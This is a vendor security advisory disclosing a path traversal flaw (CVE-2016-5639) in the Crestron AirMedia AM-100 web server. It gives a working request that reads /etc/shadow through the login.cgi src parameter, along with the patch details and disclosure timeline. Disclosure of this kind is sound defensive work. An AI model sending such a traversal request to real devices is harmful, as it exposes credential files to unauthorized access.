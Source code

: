 # [CLVA-2016-05-001]: Crestron AM-100 Path Traversal Vulnerability

# Summary

Cylance identified a vulnerability in the Crestron AirMedia AM-100, which could allow an unauthenticated entity to read arbitrary files on affected devices. The unauthenticated user must be able to access the web server on the affected devices.

## Product Description

The Crestron AirMedia AM-100 allows users to "wirelessly present PowerPoint®, Excel®, Word, and PDF documents, as well as photos, on the room display from their personal iOS® or Android™ mobile device" or desktop/laptop. (via [http://www.crestron.com/microsites/airmedia-mobile-wireless-hd-presentations](http://www.crestron.com/microsites/airmedia-mobile-wireless-hd-presentations)).

## Affected Products

* Crestron AirMedia AM-100 (firmware v1.1.1.11 - v1.2.1)

## Impact

An unauthenticated entity may be able to read arbitrary files on the affected AM-100 as superuser ("root").

# Vulnerability Information

* Cylance Identifier: CLVA-2016-05-001
* CVE Identifier: CVE-2016-5639 

## Description

A path traversal vulnerability exists in `login.cgi` (and possibly other binaries in the `/home/boa/cgi-bin` directory) on the AM-100 embedded web server. The `src` GET parameter passed to `login.cgi` specifies the relative path to a file for rendering, such as `AwLoginDownload.html`. However, the value of this parameter can specify an arbitrary path on the AM-100 filesystem.

## Impact

The attacker may be able read the contents of unexpected files and expose sensitive data. Additionally, as the embedded web server runs as root, the attacker is unrestricted by filesystem permissions.

## Attack Scenario

An unauthenticated entity with access to the AM-100 embedded web server could, for example, read the system's password file, then conduct a brute force password guessing attack in order to break into an account on the system.

## Resolution

Crestron has released firmware version 1.4.0.13 to address this issue. Affected users should update the firmware of their AM-100 as soon as possible. Crestron partners can find the latest firmware at [http://www.crestron.com/products/model/AM-100](http://www.crestron.com/products/model/AM-100)

## Credit

* Zach Lanier, Director of Research, Cylance

## Additional Information
### Details for CLVA-2016-05-001

* Example of a benign/normal `GET` request for `login.cgi`:

```
GET http://[AM-100-ADDRESS]/cgi-bin/login.cgi?lang=en&src=AwLoginDownload.html HTTP/1.1
...
```

* Example of expected response:

```
HTTP/1.1 200 OK
Content-Type: text/html
Date: Wed, 26 Oct 2005 19:07:53 GMT
Server: lighttpd/1.4.35-devel-4f1e285

<!DOCTYPE html PUBLIC "-//W3C//DTD XHTML 1.0 Transitional//EN" "http://www.w3.org/TR/xhtml1/DTD/xhtml1-transitional.dtd">
<html xmlns="http://www.w3.org/1999/xhtml">
<head>
<meta http-equiv="content-Type" content="text/html; charset=utf-8">
<meta http-equiv="Cache-control" content="no-cache">
<title>Crestron AirMedia</title>
...
```

* Example of malicious request for `/etc/shadow` (system's password file):

```
http://[AM-100-ADDRESS]/cgi-bin/login.cgi?lang=en&src=../../../../../../../../etc/shadow
```

* Response (password hash redacted for privacy reasons):

```
root:[HASH]:0:0:99999:7:::
```

# CLVA-2016-05-001 Timeline

* Discovery Date: 2016-05-12
* Vendor Notification Date: 2016-05-19
* CERT/CC Contact Date: 2016-05-27
* Vendor Acknowledgement Date: 2016-06-06
* Patch Release Date: 2016-08-01
* Public Disclosure Date: 2016-08-01
